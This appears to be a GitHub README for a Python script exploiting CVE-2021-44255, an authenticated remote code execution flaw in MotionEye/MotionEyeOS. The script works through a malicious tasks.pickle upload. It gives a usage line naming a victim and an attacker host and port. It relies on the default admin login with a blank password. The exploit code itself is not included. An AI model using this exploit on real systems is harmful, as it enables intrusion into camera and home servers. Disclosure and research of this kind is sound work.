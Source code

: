 # MotionEye/MotionEyeOS Authenticated RCE
A Python 3 script that uploads a tasks.pickle file that enables RCE in MotionEye. You need administrator credentials, so it should not be that big of a deal. Unfortunately, MotionEye/MotionEyeOS can frequently be found running with default credentials. 

Example:

main.py --victim 192.168.1.2 --attacker 192.168.1.3:4444

Where victim and attacker are in the form of ip:port, unless it is port 80. Then, the port can be excluded. This uses the default username of admin with a blank password. There are also CLI options for alternate usernames/passwords. Please see the code for more details. 

CVE-2021-44255

See https://www.pizzapower.me/2021/10/09/self-hosted-security-part-1-motioneye for a writeup on this and other issues. 
